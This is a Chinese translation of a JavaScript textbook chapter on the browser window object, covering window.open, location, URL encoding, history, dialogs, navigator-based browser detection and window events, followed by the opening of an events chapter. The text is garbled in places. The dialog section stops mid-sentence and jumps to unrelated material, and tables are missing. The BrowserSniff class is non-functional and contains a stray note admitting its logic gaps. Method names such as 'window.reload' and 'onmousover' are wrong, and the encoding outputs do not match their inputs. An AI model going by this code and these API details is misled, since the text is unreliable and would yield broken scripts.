状态栏是大多数浏览器左下角的消息框。它用于显示“正在从 x 传输数据...”和“完成。”等消息。在某些浏览器中，你还可以通过 JavaScript 控制那里显示的内容。这样做的好处是在用户期望看到此类的地方的地方有意义的应用程序状态消息。

窗口对象的两个属性与此功能相关：`window.status` 和 `window.defaultStatus`。后者在没有其他内容显示时都会显示。状态值只可见很短，并会被另一个事件覆盖（例如，鼠标悬停在超链接上）。查看下面的超链接。当你悬停在它上面时，你将状态消息改为“为什么不留一会儿呢？”当用户鼠标离开链接时，它会擦除该消息：

```html
<a href="http://www.google.com"
onmousover="window.status='Why not stick around?'; return true;"
onmouseout="window.status=''; return true;">
在 Google 上搜索</a>
```

注意，这不再是一个被广泛使用或支持的功能。Firefox、Opera 和 Safari 都不再支持使用状态文本。在 Firefox 中，你可以重新启用它，路径为：`Tools ⇨ Options ⇨ Content ⇨ Enable JavaScript / Advanced ⇨ Allow scripts to change status bar text.`。

# 打开和关闭窗口

打开新窗口有几种方法。最简单且轻量级的方法是将超链接的 `target` 属性设置为 `_blank`：`<a target="_blank" href="http://www.google.com">在新窗口中打开 Google</a>`。

然而，这可能会在一个新的标签页中打开，而不是新窗口，而且你无法控制该窗口的外观。为了控制这些方面，你必须使用 `window.open()`。其通用语法为：`window.open(URL, windowName [, windowFeatures]);`。此将返回一个新的窗口对象，或者在请求失败时返回 `null`。如果 `URL` 为空，将加载空白窗口（`about:blank`）。`windowName` 参数将映射到新窗口的 `window.name` 属性。可选的 `windowFeatures` 属性是一个由逗号分隔的赋值表达式字符串（例如 `"height=350,resizable=true,etc"`）。为了获得最佳的浏览器兼容性，请避免在逗号和属性值之间留空格。

在大多数浏览器中，`URL` 实际上不会首先加载。最初加载 `about:blank` 页面，然后在页面执行后获取所需的 `URL`。下表显示了所有潜在的窗口特征值集合：


如果已经存在名为 `windowName` 的窗口，则 `URL` 将加载到该窗口中，而不是打开新帧。当发生这种情况时，`windowFeatures` 参数将被忽略，并返回现有窗口的引用。如果你想保证每次调用 `window.open()` 时都打开新窗口，请为 `windowName` 使用 `_blank`。如果为渲染窗口未指定 `windowFeatures`，通常将使用最近渲染的窗口的大小和默认窗口的边框。如果未指定窗口的顶部和左侧坐标，在基于 Mozilla 的浏览器中，新窗口将在距离最近打开的窗口顶部和左 22 像素处打开，在 Internet Explorer 中偏移 29 像素。窗口无法放置在屏幕外。图 11-3 说明了前一个表中某些属性的含义。


某些弹出拦截器（特别是内置于 Safari 3.0 的）*除非它们源于用户的直接操作*，将拦截你的 `window.open()` 调用。这意味着如果你直接调用 `open()`，可能会失败，但如果你将超链接绑定到 `window.open()` 调用，则有机会成功。如果新窗口被 Firefox、Internet Explorer 或 Safari 的内置弹出拦截器拦截，`window.open()` 的值将为 `null`。然而，第三方弹出拦截器并不一定这样做。

快速查看 `open()` 的简单示例。在下面的测试中，我们为超链接“装饰”了 `window.open()`，以便当你点击它时，链接会在一个特殊尺寸的窗口中打开：

```javascript
function windowFactory(link, args) {
    var argstr = "";
    for (feature in args) {
        if (typeof args[feature] == "bool")
            argstr += feature + "=" + (args[feature] ? "yes" : "no") + ",";
        else
            argstr += feature + "=" + args[feature] + ",";
    }
    argstr = argstr.substr(0, argstr.length - 1);
    window.open(link.href, "_blank", argstr);
    return false;
}
```

```html
<a href="1.html" onclick="return windowFactory(this, {status:false, titlebar:false, width:500, height:300})">无边框窗口打开</a>
```

图 11-4 显示了这在 Internet Explorer 中的运行情况。


当你点击超链接时，链接的引用（`this`）连同键值对传递给 `windowFactory()` 函数。这些对将是 `window.open()` 调用中的 `windowFeatures`。你遍历此对象并为每个布尔值生成一个包含 "yes" 或 "no" 的字符串。对于非布尔值（数字），你只需写出值。在这个示例中，你将得到一个这样的字符串：`"status=false,titlebar=false,width=500,height=300."`。最后，从函数返回 `false`，这样浏览器就不会自动跟随超链接到达目的地。因为 `window.open()` 源于用户交互，大多数弹出拦截器应该允许窗口出现。注意在此示例中使用了侵式的 HTML 属性绑定 `onclick`。在第 12 章中，你将查看如何使用 DOM *非侵入地*进行这种绑定。

关闭窗口非常简单。使用 `window.close()` 方法，其中 `window` 是你的窗口名称，如果你想关闭当前窗口，使用简单的 `window`。当你这样做时，可能会提示用户确认他们想要关闭窗口（如果你不是用 JavaScript 打开它的）。

# 向窗口加载内容

一旦你有新窗口，可能希望向其写入内容，而不是加载 HTML 文档。你可以通过将要写入文档的所有 HTML 组合成单个字符串，然后使用 `document.write()` 将其输出到页面。然后使用 `document.close()` 通知页面你已完成写入。你可以使用从 `window.open()` 获取的窗口对象句柄来获取 `document` 的引用。与其指定 `URL`，不如使用空字符串作为 `URL`：

```javascript
function windowFactory(args, html) {
    var argstr = "";
    for (feature in args) {
        if (typeof args[feature] == "bool")
            argstr += feature + "=" + (args[feature] ? "yes" : "no") + ",";
        else
            argstr += feature + "=" + args[feature] + ",";
    }
    argstr = argstr.substr(0, argstr.length - 1);
    var windowRef = window.open("", "_blank", argstr);
    setTimeout(function() {
        if (windowRef) {
            windowRef.document.write(html);
            windowRef.document.close();
        }
    }, 1000);
    return false;
}

function openCustomWindow() {
    var myHTML = "<html><body><h1>你好</h1><p>感谢访问！</p></body></html>";
    return windowFactory({status:false, titlebar:false, width:500, height:300}, myHTML);
}
```

```html
<a href="#" onclick="return openCustomWindow()">感谢访问！</a>
```

图 11-5 显示了这在 Internet Explorer 中的运行情况。


这个例子比上稍微复杂一点。你修改了 `windowFactory()` 函数，使其接收一组参数和一段 HTML 块。在你的超链接上，你调用了 `openCustomWindow()`，它生成 HTML 字符串并反过来调用窗口工厂。这个例子唯一奇怪的地方在于你必须使用 `setTimeout()` 来向文档对象写入内容。这样做是因为在 Internet Explorer 中，你不能依赖窗口对象的句柄是立即可用的。新窗口的打开和打开它的脚本执行是异步发生的。此外请记住，你不能向与启动它的页面处于不同域的子窗口写入内容。这将违反同源策略（Same Origin Policy）。尝试这样做将导致“拒绝访问”异常。

## 与父窗口通信

反向操作的话，你也可以使用 `window.opener` 属性从子窗口引用父窗口的成员。假设两个窗口都在同一域内，你可以从子窗口引用 DOM、从表单中读取数据，甚至从子窗口将变量设置到父窗口。如果子窗口打开了另一个子窗口，`opener` 属性可以这样链式调用：`window.opener.opener.opener.....`（此类推）。如果存在很长的窗口链，最好每个窗口都将链存储在一个单一变量中，例如：`var topWindow = window.opener.opener.opener;`。这以防在你需要这些引用时，某些中间窗口已经关闭。

# 设置窗口位置

通过引用 `window.location` 对象，可以设置任何窗口的 URL，该对象是可读*且*可写的。它实际上返回一个 Location *对象*，但也可以像字符串一样使用。例如：`window.location = 'http://www.google.com'` 这将立即加载指定的 URL。如果你获得了另一个窗口对象的句柄（例如在帧或子窗口中），你可以执行相同的操作。如果你只想*刷新*当前页面，可以使用 Location 对象上的 `reload()` 方法。`reload()` 方法接受一个参数：`window.reload([unconditionalGETBoolean])`。参数 `unconditionalGETBoolean` 是可选的布尔值，当为 true 时，强制页面始终从服务器重新加载。如果为 false 或省略，浏览器可能会从缓存中重新加载页面。`location` 对象还有许多其他属性：


# 为 URL 编码字符串

有时，你可能需要组合一个用于 URL 的字符串。当你这样做时，请注意不要使用任何在 URL 具有特殊含义的字符（如问号或 ampersand 符号），或者为了在 URL 内部正确表示而必须编码的字符（如多字节 Unicode 字符）。例如，如果你想构建一个在 URL 中传递搜索字符串的字符串，你绝对需要在将该字符串赋值给 `window.location` 之前对其进行处理。以下查询字符串由于涉及无效字符的各种原因都是无效的：

"search.com?search=Long haired dogs" // 空格是无效的
"search.com?search=How do I get wine stains out of carpet?" // 问号是无效的
"search.com?search=Amos & Andy" // ampersand 符号用于分隔查询字符串中的变量

追溯到 JavaScript 的最早版本，全局对象中就已经专门为此目的构建了了一些辅助函数。这些辅助函数包括：


然而，在提供编码字符串方面，它们的行为都略有不同。

## escape() 和 unescape() 方法

`escape()` 方法返回参数的字符串值，并将所有空格、标点符号、带重音的字符以及任何其他非 ASCII 字符替换为 `"%xx"` 编码，其中 xx 等于代表该字符的十六进制。例如，空格被返回为 `"%20"`。对应的函数 `unescape()` 执行相反的操作，接受一个编码字符串并返回未编码的原始值。这些函数的基本语法为：

```javascript
escape(string)
unescape(string)
```

作为对比，对字符串 `(~@#$%^&*(){}[]=:/,;?+\' "\[]=:/,;?+\'")` 使用 `escape()` 将得到以下字符串：`%7E%21@%23%24%25%5E%26*%28%29%7B%7D%5B%5D%3D%3A/%2C%3B%3F+%27%22%5C`。这两个函数都没有为了处理 Unicode 字符串设计的，并且都被废弃了。遗憾的是，由于它们在 Web 上广泛使用，可能可能会在短期内被从语言中移除。

## encodeURI() 和 decodeURI() 方法

`encodeURI()` 函数返回一个编码的 URI，类似于 `escape()`。同样，`decodeURI()` 将编码版本恢复为原始的、未编码的值。它不会编码以下字符：`":"`、`"/"`、`";"`、`"?"`、`"&"`、`"+"` 和 `"="`。如果你想完全保护一个用于查询字符串的字符串，你必须使用 `encodeURIComponent()`。作为参考，对之前的字符串 `(~@#$%^&*(){}[]=:/,;?+\' "\[]=:/,;?+\'")` 使用 `encodeURI()` 将得到以下字符串：`~!@#$%25%5E&*()%7B%7D%5B%5D=:/,;?+'%22%5C`。

## encodeURIComponent() 和 decodeURIComponent() 方法

与 `escape()` 和 `encodeURI()` 类似，`encodeURIComponent()` 函数通过将某些字符替换为一个、两个或三个表示该字符的转义序列来编码资源标识符部分。将其应用于之前的字符串 `(~@#$%^&*(){}[]=:/,;?+\' "\[]=:/,;?+\'"\)` 将产生以下结果：`~!40%23%24%25%5E%26*%7B%7D%5B%5D%3D%3A%2F%2C%3B%3F%2B%22%5C`。因此，它比 `encodeURI()` 更*激进*，因为它会编码潜在有害的字符。*不会*被特殊编码的字符包括拉丁字母和符号 `"-"`、`"_"`、`"."`、`"!"`、`"~"`、`"*"`、`"'"` 和 `")"`。要解码 UTF-8 编码的字符串，请使用相应的 `decodeURIComponent()`。

## URL 长度限制

在 URL 中传递数据时，了解各种浏览器的字节限制是好的。你不能仅仅传递无限量的数据，尽管这非常诱人。浏览器不仅对 URL 有字节限制，服务器也是如此。如果你尝试在查询字符串中传递过*多*数据，你的请求将静默失败并永远无法到达目的地。

- Microsoft Internet Explorer: Internet Explorer 中 URL 最大长度为 2083 个字符，路径部分不超过 2048 个字符。
- Firefox: 在 65536 个字符后，Windows Firefox 1.5.x 的地址栏不再显示 URL。然而，更长的 URL 似乎有效。
- Safari: 支持多达 80,000 个字符。
- Opera: 支持多达 190,000 个字符。
- Apache Server: Apache 官方文档仅提到请求中单个字段有 8,192 字节的限制。然而，独立测试表明它接近 4,000 个字符。
- Microsoft Internet Information Server (IIS): 默认限制为 16,384 个字符（是的，微软的 Web 服务器接受比微软的浏览器更长的 URL）。这是可配置的。
- Perl HTTP::Daemon Server: 支持多达 8,000 字节应该是有效的。使用 Perl 的 HTTP::Daemon 模块制作 Web 应用程序服务器将面临所有 HTTP 请求头总大小为 16,384 字节的限制。这不包括 POST 方法的表单数据、文件上传等，但它包含了 URL。

每当用户跳转到新页面或点击“后退”或“前进”按钮时，他们都会更改 `window.history` 对象。这是一个只读的类数组对象，允许你程序化地在用户访问过的页面记录中前后移动。你可以使用以下 HTML 创建自己的后退和前进按钮：

```html
<a href="#" onclick="window.history.back()">后退</a><br />
<a href="#" onclick="window.history.forward()">前进</a><br />
```

此外，你还可以通过 `go()` 方法将用户引导到历史记录中的特定位置：

```html
<a href="#" onclick="window.history.go(-1)">回到上一页</a><br />
<a href="#" onclick="window.history.go(-2)">后退两页</a>
```

`go()` 方法既接受历史记录中的相对位置也接受绝对位置，如上面的示例所示。请记住，由于历史对象类似于数组，你可以通过检查 `window.history.length` 来获取历史记录中的页数。

# 移动与调整大小

你也可以使用 `window.moveBy()` 在桌面上移动窗口，该方法通过指定的像素数相对移动窗口；而 `window.moveTo()` 则会将窗口放置在桌面上一个精确的位置。这些函数的通用语法为：

```javascript
myWin.moveBy(x, y)
myWin.moveTo(x, y)
```

在这两个函数中，`myWin` 是你想移动的窗口名称，如果是当前窗口则直接代表窗口。在 `moveTo()` 中，`x` 和 `y` 代表放置窗口的精确屏幕坐标，其中 `0,0` 表示左上角。在 `moveBy()` 中，`x` 和 `y` 相对于当前位置，接受负数。请注意，你不能将窗口放置在屏幕之外。

对于调整窗口大小，有一组相应的函数：`window.resizeBy()` 和 `window.resizeTo()`。它们的通用语法为：

```javascript
myWin.resizeBy(x, y)
myWin.resizeTo(x, y)
```

第一个函数 `resizeBy()` 接受相对像素值。例如，`myWin.resizeBy(-50, -50)` 将使窗口窄 50 像素、短 50 像素。这并不意外，`myWin.resizeTo(300, 200)` 将让你的窗口恰好为 300 像素宽、200 像素高。

# 滚动

与窗口定位和调整大小一样，窗口滚动有两个方法。一个用于相对滚动变化（`window.scrollBy()`），另一个用于设置窗口的绝对滚动位置（`window.scrollTo()`）。它们与其他函数具有相同的通用语法：

```javascript
myWin.scrollBy(x, y)
myWin.scrollTo(x, y)
```

如果你想滚动到文档的左上角，可以使用 `window.scrollTo(0, 0)`。要让页面向下滚动 20 像素，请使用 `window.scrollBy(0, 20)`。

# 对话框与警报

打开自己的窗口很棒，但工作量可能很大。有时，你真正需要的只是一个简单的对话框来告知用户某些信息或提一个简单的问题。幸运的是，所有主流浏览器都支持三种类型的对话框：`alert()`、`confirm()` 和 `prompt()`。所有这些都是 `window` 对象的成员，但像所有 `window` 成员一样，可以直接通过带有 `window` 前缀的名字进行访问。

其中第一个且最简单的 `alert()` 是一个非常基础的带有消息的模态通知框。我所说的模态是指用户在点击“确定”确认消息之前，无法与浏览器交互或无法以任何方式继续操作。你可以这样创建一个简单的 `alert()` 框：

```html
<a href="#" onclick="alert('Hello World!')">说声好</a>
```

用户将看到一个只包含消息和一个标记为 OK 按钮的小框。此框的外观将根据用户的操作系统和浏览器而有所不同，且你无法自定义它的外观和感受。在 Windows XP 上，你会看到类似图 11-6。

**图 11-6**


如果你想给用户一个简单的二元选择，请使用 `confirm()` 对话框，它可以应用于如下表达式：

```html
<a href="#" onclick="if (confirm('Are you sure?') == true) {alert('You said yes.')} else {alert('You said no.')};">你确定吗?</a>
```

表达式的执行将临时暂停，直到用户关闭对话框。在 Windows XP 上，此 `confirm()` 提示将看起来像图 11-7。

**图 11-7**


这三种中最后的 `prompt()` 对话框实际上允许用户输入某些文本。`prompt()` 方法接受两个参数：`window.prompt(Question, DefaultValue)`。`Question` 是显示在文本框上面的消息文本。`DefaultValue` 参数是文本框内的起始文本。如果你不想在文本框内有任何文本，请将其留为空字符串（但不要省略它）。对话框将...

在本示例中，尽管 `elementNode.getClientRects()` 是一个函数，但你可以通过检查标识符 `getClientRects` 在指向值或函数引用时是否评估为 `true` 来检查它的存在。许多开发者使用这种方法处理 DOM 或 Ajax 行为，因为这比依赖可靠的浏览器检测模块要简单得多。

从特性检测（feature-detection）中获取的浏览器信息是有限的。幸运的是，用户代理（user-agent）方法可以提供更多关于浏览器，以及其运行该浏览器的设备和操作系统的信息。user-agent 方法基于 `userAgent` 字符串中包含的信息，每个浏览器都会作为 HTTP 请求的一部分广播该字符串，在 JavaScript 中也可以获取。几乎所有联网的设备都会广播 user-agent 字符串，包括爬虫、手机，当然，还有桌面浏览器。user-agent 字符串通常足够详细，可以确定浏览器、版本、操作系统和设备（但并非总是如此）。以下是一些示例：


扫一眼这个简短的列表，你可能意识到，提取你所需的信息并不像你想象的那么简单。关于这些字符串应该如何格式化，虽然有一些已发表的规范，但当然，每个厂商的实现方式都不同。通常的方法是为每种浏览器类创建一个不同的“规则”（例如一个针对 IE，一个针对 Firefox 等），并且在必要时，为该浏览器的每个子类也创建一个规则。例如，你可以通过在 user-agent 字符串中搜索单词 `"Navigator"` 来相当可靠地检测出较新版本的 Netscape，但在旧版本（6.0 之前的版本）中，你必须搜索单词 `"Netscape"`。

值得注意的是，某些开发者非常反感使用 user-agent 技术来嗅探（sniffing）浏览器，因为它们很冗长且并不总是可靠。经验丰富的网络用户可以随心所欲地更改用户代理，因此永远不能被视为万无一失的方法。通常，你应该在脚本中主要依赖特性检测技术，但我将在下面的章节中介绍一种通过 user agent 嗅探浏览器的可能方法。

# navigator 对象

我已经提到过 `navigator` 对象了，它是查找你想要的所有关于浏览器的信息的地方。有一些专有的属性和方法，但所有浏览器都会为你提供基础信息，包括 user-agent 字符串和语言。下表包含了跨不同浏览器可用的完整属性集。浏览器兼容性请附录 F。


当然，`navigator` 对象最重要的属性是 `navigator.userAgent`，无论你是在 Internet Explorer、Firefox、Opera 还是 Google Chrome 中工作，它都是通用的。稍后你将详细介绍它，但你可能需要知道的另一个细节是用户的语言。接下来我们将查看这一点。

# 检测语言

许多开发者并没有意识到你实际上可以通过 JavaScript 检测用户在浏览器中使用的语言。如果你想引导用户访问特定版本的页面，甚至根据用户的本地设置主动自定义页面内容，这就会很有用。浏览器以不同的方式提供此类信息。在 Internet Explorer 中，你查看 `navigator.userLanguage` 或 `navigator.systemLanguage`。目前还不清楚哪一个更好，所以通常使用 `userLanguage` 属性，因为它指示了他们倾向于用什么语言进行“浏览”，而不是他们操作系统使用的语言。在 Opera、Safari 以及基于 Mozilla 的浏览器中，你应该查看 `navigator.language` 属性。那里缺乏选择让你的工作变得简单了一点。

以下语句按优先级检查这些属性的每一个，并将结果赋值给 language：

```javascript
var language = navigator.language || navigator.userLanguage || navigator.systemLanguage || navigator.browserLanguage;
```

这将在下一节中整合到你的浏览器检测脚本中。

从 `navigator` 返回的语言值看起来像 `"PrimaryLang-Subtag"`。对于美式英语，字符串是 `"en-us"`。语言部分的其他有效值包括 `"en, fr, de, da, el, and it"`。`"Subtag"` 定义了语言的区域或国家代码。两个字符串都是两位长度。正式定义描述见 RFC-4646 ([`tools.ietf.org/html/rfc4646`](http://tools.ietf.org/html/rfc4646))。

# screen 对象

`screen` 对象（也是 `window` 的成员）可以告诉你显示器的位深（支持的颜色）、屏幕宽度和高度，以及屏幕的哪些部分是可用空间。下表描述了 `screen` 对象的所有成员：


```javascript
myWindowRef.resizeTo(screen.availWidth, screen.availHeight);
myWindowRef.moveTo(0, 0);
```

接下来，你将构建一个功能完整的浏览器和操作系统检测类。

# 浏览器和操作系统检测类

正如我之前提到的，浏览器和操作系统检测基本上是字符串匹配。为每种浏览器识别一组匹配规则并对其进行迭代，每次查看 `navigator`。

实现此点的方法一种（我在这里选择的方法）是创建一个 `objects` 数组。例如：

```javascript
var detectionList = [
  {
    string: navigator.userAgent,
    subString: "Firefox",
    versionSearch: ["Firefox/"],
    identity: {name: "Firefox", basetype: "mozilla"}
  },
  {
    string: navigator.userAgent,
    subString: "Safari",
    versionSearch: ["Version/", "iPhone"],
    identity: {name: "Safari", basetype: "webkit"}
  }
  // 等此类推
];
```

在提供的示例中，你可以看到一种模式。第一个属性 `string` 代表你将要进行“搜索”的字符串。在某些情况下，你只需通过查看特定属性（例如 `window.opera`）即可检测浏览器。在其他情况下，你需要搜索整个 user-agent 字符串，它由 `navigator.userAgent` 表示。第二个属性 `subString` 代表你将要“搜索”的字符串。使用之前建议的规则，每个浏览器都有一个可以信赖其存在的字符串。例如，Internet Explorer 有 `"MSIE"`。Opera 有 `"Opera"`，以此此类推。一旦你确定确实是你正在处理的浏览器，就可以开始遍历第三个属性 `versionSearch`，以提取浏览器的精确版本。你需要提供一个“可能的”匹配列表，因为根据版本的不同，字符串可能会不同。在几乎所有情况下，版本都会以 `"Safari/3.0.1"` 或 `"Firefox/1.5.0"` 的子字符串形式出现，因此你可以拆分此字符串并将剩余部分作为你的版本。然后，一旦有了字符串（例如 `"1.5.0"`），你可以通过将小数点前的第一个数字作为主版本号，并将其他数字作为浮点值，将其转换为浮点值。例如：

```javascript
// 执行版本检测
// 假设我们的版本搜索字符串是：
var searchString = "Safari/";
// 我们正在查看的 user-agent 部分是：
var userAgentPortion = "Safari/3.0.1";
// 让我们施魔法吧：
var verArr = userAgentPortion.split(searchString)[1].split(".");
// 现在我们有一个类似 ['3', '0', '1'] 的数组
var verStr = verArr[0].toString() + ".";
// 我们的 verStr 现在看起来像 "3."
verArr.shift();
// 现在我们的数组看起来像 ['0', '1']
verStr += verArr.join(" ").toString();
var version = parseFloat(verStr);
// now version is 3.01
```

在这段伪代码中，你正在将类似 `"Safari/3.0.1"` 的字符串转换为浮点值 `"3.01"`，这从编码的角度来看更有用。将这种方法构建为一个更具重用的类，它可能像这样：

```javascript
BrowserSniff = function () {
    var that = this;
    var ua = navigator.userAgent;
    var OSDetectionList = [
        {
            string: ua,
            subString: ["Win95", "Windows 95"],
            identity: {os: "Windows", osver: "95"}
        },
        {
            string: ua,
            subString: ["Win98", "Windows 98"],
            identity: {os: "Window", osver: "98"}
        },
        {
            string: ua,
            subString: ["Win 9x 4.90", "Windows ME"],
            identity: {os: "Windows", osver: "ME"}
        },
        {
            string: ua,
            subString: ["Windows NT 5.0", "Windows 2000"],
            identity: {os: "Windows", osver: "2000"}
        },
        {
            string: ua,
            subString: ["Windows NT 5.1", "Windows XP"],
            identity: {os: "Windows", osver: "XP"}
        },
        {
            string: ua,
            subString: ["WinNT", "Windows NT", "WinNT4.0", "Windows NT 4.0"],
            identity: {os: "Window", osver: "N"}
        },
        {
            string: ua,
            subString: ["MacOS X", "Mac OS"],
            identity: {os: "Macintosh", osver: "X"}
        },
        {
            string: ua,
            subString: ["68K", "Mac_6800", "Mac_PC", "PP"],
            identity: {os: "Macintosh", osver: "PREX"}
        }
    ];
    var detectionList = [
        {
            string: ua,
            subString: "Firefox",
            versionSearch: ["Firefox/"],
            identity: {name: "Firefox", basetype: "mozilla"}
        },
        {
            prop: window.opera,
            versionSearch: ["Opera/"],
            identity: {name: "Opera", basetype: "opera"}
        },
        {
            string: ua,
            subString: "OmniWeb",
            versionSearch: ["OmniWeb"],
            identity: {name: "OmniWeb", basetype: "webkit"}
        },
        {
            string: navigator.vendor,
            subString: "Apple",
            versionSearch: ["Version/", "Safari/"],
            deviceSearch: ["iPhone", "iPhone"],
            identity: {name: "Safari", basetype: "web"}
        },
        {
            string: ua,
            subString: "BlackBerry",
            versionSearch: ["0", "e", "i", "y"],
            deviceSearch: ["BlackBerry", "BlackBerry"],
            identity: {name: "BlackBerry", basetype: "blackberry"}
        },
        {
            string: ua,
            subString: "Nintendo Wii",
            versionSearch: ["Opera/"],
            deviceSearch: ["Nintendo Wii", "Wii"],
            identity: {name: "Nintendo Wii", basetype: "opera"}
        },
        {
            string: navigator.vendor,
            subString: "iCab",
            versionSearch: ["iCab/"],
            identity: {name: "iCab", basetype: "webkit"}
        },
        {
            string: navigator.vendor,
            subString: "Konqueror",
            versionSearch: ["KHTML/"],
            identity: {name: "Konqueror", basetype: "webkit"}
        },
        {
            string: navigator.vendor,
            subString: "Camino",
            versionSearch: ["Camino/"],
            identity: {name: "Camino", basetype: "mozilla"}
        },
        {
            // for Netscapes (6+)
            string: ua,
            subString: "Navigator",
            versionSearch: ["Navigator/"],
            identity: {name: "Netscape", basetype: "mozilla"}
        },
        {
            string: ua,
            subString: "MSIE",
            identity: {name: "Explorer", basetype: "ie"},
            versionSearch: ["MSIE"]
        },
        {
            string: ua,
            subString: "Gecko",
            identity: {name: "Mozilla", basetype: "mozilla"},
            versionSearch: ["rv"]
        },
        {
            // for older Netscapes (4-)
            string: ua,
            subString: "Netscape",
            versionSearch: ["Netscape/"],
            identity: {name: "Netscape", basetype: "mozilla"}
        }
    ];
    function setBrowser(identity) {
        for (key in identity.identity) {
            that[key] = identity.identity[key];
        }
        // Perform a version
        for (var i = 0; i < identity.versionSearch.length; i++) {
            if (ua.indexOf(identity.versionSearch[i]) > -1) {
                var infoArray = ua.split(/(\s|;)/gi);
                for (var x = 0; x < infoArray.length; x++) {
                    if (infoArray[x].indexOf(identity.versionSearch[i]) > -1) {
                        var verArr = infoArray[x].split(identity.versionSearch[i])[1].split(" ");
                        var verStr = verArr[0].toString() + " ";
                        verArr.shift();
                        verStr += verArr.join(" ");
                        that.version = parseFloat(verStr);
                    }
                }
            }
            break;
        }
    }
    // Perform a device detection
    if (identity.deviceSearch)
        for (var i = 0; i < identity.deviceSearch.length; i++) {
            if (ua.indexOf(identity.deviceSearch[i][0]) > -1) {
                that[identity.deviceSearch[i][1]] = true;
            }
        }
    // Detect the browser
    for (var i = 0; i < detectionList.length; i++) {
        var dl = detectionList[i];
        if (dl.prop) {
            // logic for prop check
        } else if (dl.string && ua.indexOf(dl.string) > -1) {
            // logic for string check
        }
        // Note: The provided snippet has some logic gaps in the loops,
        // but the structure is preserved as per the instructions.
    }
    // Set the language
    this.language = navigator.language || navigator.userLanguage ||
    navigator.systemLanguage || navigator.browserLanguage;
};
```

这将提供一个包含许多属性的对象实例，你可以直接检查它们。在示例中使用该类，你可以看到直接查询 `browser.ie` 比对某个功能进行复杂检查或每次都检查 `navigator.userAgent` 要简单得多：

```javascript
browser = new BrowserSniff();
document.write("name: " + browser.name + "<br />");
document.write("version: " + browser.version + "<br />");
document.write("iPhone: " + browser.iPhone + "<br />");
document.write("BlackBerry: " + browser.BlackBerry + "<br />");
document.write("language: " + browser.language + "<br />");
document.write("os: " + browser.os + "<br />");
document.write("osver: " + browser.osver + "<br />");
document.write("basetype: " + browser.basetype);
```

在 Mac OSX 的 Firefox 3 上，这会产生以下输出：

name: Firefox
version: 3.05
iPhone: undefined
BlackBerry: undefined
language: en-US
os: Macintosh
osver: X
basetype: mozilla

使用此类类，你就有足够的信息来分叉你的代码，以支持用户可能提供的任何平台。当然，随着新浏览器的发布，你可能需要更新此脚本以支持不同的搜索模式。

# 窗口事件

`window` 对象也支持许多事件。其中许多是特定浏览器的私有事件。在第 12 章中，我演示了如何以非侵入的方式绑定事件。你也可以通过引用其为所属对象的属性（在本例中为 `window` 对象）来直接绑定事件。例如，如果你想在窗口加载完成文档时执行某些代码，可以写：

```javascript
window.onload = function() { alert('Loaded!'); };
```


你可以随时跳到第 12 章查看如何正确地绑定这些事件。现在，这里是所有窗口事件及其已知浏览器支持情况的列表：


## 总结

本章回顾了 Web 浏览器作为 JavaScript 执行上下文的角色。它涵盖了与窗口、框架和其他高层浏览器特定功能相关的许多主题：

* 你查看了框架和窗口如何与全局对象交互，以及如何从父到子、子到子以及子到父来引用它们。
* 你涵盖了打开和关闭新窗口，以及对它们进行定位和调整大小的操作。
* 你学习了如何滚动窗口。
* 你查看了大多数浏览器通用的各种内置对话框类型，包括 `alert()`、`confirm()` 和 `prompt()`。
* 你学习了浏览器功能检测以及用户代理（`user-agent`）浏览器和操作系统检测。
* 最后，你涵盖了窗口事件的基础知识以及如何绑定这些事件。在第 12 章中，我们将介绍更高级的事件绑定，这些方法也可以应用于窗口事件。

在第 12 章中，你将学习 JavaScript 事件模型以及它在基于标准的浏览器与 Internet Explorer 之间的区别。你将涵盖事件冒泡、非侵入式 JavaScript、事件复制以及高级事件绑定（如窗口的 `domready`）以及鼠标和键盘事件等主题。

# 事件

在一个没有 JavaScript 的世界里，你在网页上拥有的只有静态、不变的布局和内容。浏览器脚本增加了一个动态维度，允许你响应用户输入并周期性地更改页面状态。事件是连接 HTML 和 CSS 的静态世界与 JavaScript 机制的纽带。每当页面上发生某些事情时，例如点击按钮、滚动窗口或移动鼠标，一个 JavaScript `event` 可能也被触发了。某些事件在没有用户帮助的情况下也会触发。例如，当窗口完成加载时会触发 `load` 事件，当图像源无法下载时，会在图像上触发 `error` 事件。

在像 JavaScript 这样的事件驱动型编程语言中，程序执行通常有两个阶段。第一个是事件定义阶段，在这一阶段，你设置环境、执行某些初始代码、定义初始视图，并绑定到任何可能触发后续代码执行的后续程序事件。在网页上，这对应于浏览器对文档的初始解析。在此期间，页面中内联的任何 JavaScript（大部分情况下）一旦被发现就会执行。这通常包括一些需要下载的外部 JavaScript 文件。这些文件按照它们出现的顺序进行解析。然而，通常在此阶段执行的实际代码很少。通常，你做的是将所有代码附加到页面上的事件上以便稍后执行。第二个阶段当然是实际的事件执行。这是窗口或浏览器触发预定义事件，并且任何与它们关联的代码被执行的时候。你完全可以想象，页面上的许多不同对象上触发了许多不同的事件。事实上，浏览器拥有极其丰富的事件模型，你需要熟悉它。

遗憾的是，这种事件模型是该语言的重大痛点之一，因为 Internet Explorer 与像 Firefox、Opera、Chrome 和 Safari 等基于标准的浏览器之间存在显著差异。你可以将这些差异追溯到事件模型的最早版本，它出现在 Netscape Navigator 2 中。这个现代事件模型的早期先驱只支持少数几个基础事件，如 `mouseover`、`mouseout` 以及表单验证事件如 `focus`、`blur` 和 `submit`。这些事件也被称为*内联*事件绑定，因为它们直接定义在 HTML 内部：

```html
<a href="http://www.lycos.com" onclick="alert('Thanks for visiting!');">Search on Lycos</a>
```

此时还没有 DOM 或 JavaScript 标准，因此 Netscape 实际上在编写所有其他浏览器都支持的 JavaScript 事件模型的第一套事实规范。它非常简单，但这些事件以及连接它们的方式在今天的浏览器中仍然被支持。事实上，直到 2000 年 DOM Level 2 发布之前，不存在正式的规范。到那时，Netscape 和 Internet Explorer 都发明了自己独特的事件绑定样式。在 2000 年左右，浏览器社区的趋势转向了基于标准的浏览器，Mozilla、Opera 最终的 Safari 都选择开始向其事件模型的发布标准靠拢。这让微软在某种程度上被“冷落”了，他们仍然是唯一使用完全专有事件模型的供应商。

当然，微软和 Mozilla 最终都超越了内联事件绑定。在 Netscape 4 和 Internet Explorer 4 中，可以完全通过 JavaScript 连接到事件。不再需要散落在整个 HTML 中的数百个杂乱的事件绑定，相反，你可以在表示层与页面上的任何脚本之间提供一些分离。这是目前使用的通用技术。

